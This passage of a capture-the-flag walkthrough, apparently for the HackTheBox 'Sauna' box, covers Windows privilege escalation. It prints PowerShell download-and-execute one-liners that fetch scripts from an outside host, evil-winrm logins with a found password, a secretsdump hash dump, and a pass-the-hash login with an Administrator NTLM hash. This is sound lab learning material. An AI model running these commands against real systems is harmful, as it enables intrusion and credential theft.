 ```

![img](./img/13.png)

The user.txt file was found in the Desktop folder.

>1b5520b98d97cf17f24122a55baf70cf

***
### 4. Privilege Escalation:

- Enumerating users

After gaining the initial access of the machine, a svc_loanmgr account was found under the c:\Users folder but the current account did not have access rights to read the folder

![img](./img/14.png)

![img](./img/15.png)

![img](./img/16.png)

![img](./img/17.png)

- Enumerating the environment

The missing software patches for local privilege escalation vulnerabilities was not found using the [Sherlock.ps](https://github.com/rasta-mouse/Sherlock) script

```powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.15:8888/Sherlock.ps1'); Find-AllVulns -Command 'start powershell.exe'"```

Enumerating with the Powershell Privilege Escalation Enumeration Script [WindowsEnum.ps1](https://github.com/absolomb/WindowsEnum/)

```powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.15:8888/WindowsEnum.ps1');```
The password of svc_loanmanager was found

![img](./img/18.png)

According to the net user result above, this user was under the Remote Management Users group. Using the evil-winrm again to login 

```/root/Documents/ctf/tools/win/evil-winrm/evil-winrm.rb -u svc_loanmgr -p Moneymakestheworldgoround! -i sauna.htb```

![img](./img/19.png)

As this user svc_loanmgr was in the user group NTLM Authentication, tried to reveal the dump the NTLM hashes using the Impacket's [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

```/usr/share/doc/python3-impacket/examples/secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'```

![img](./img/20.png)

The hash of the adminstrator was extracted, tried the Pass The Hash attack using the [pth-winexe](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/)
**Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::***

![img](./img/21.png)

Tried to connect with winrm again using the password hash

```
/root/Documents/ctf/tools/win/evil-winrm/evil-winrm.rb -u administrator --hash 500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff -i 10.10.10.175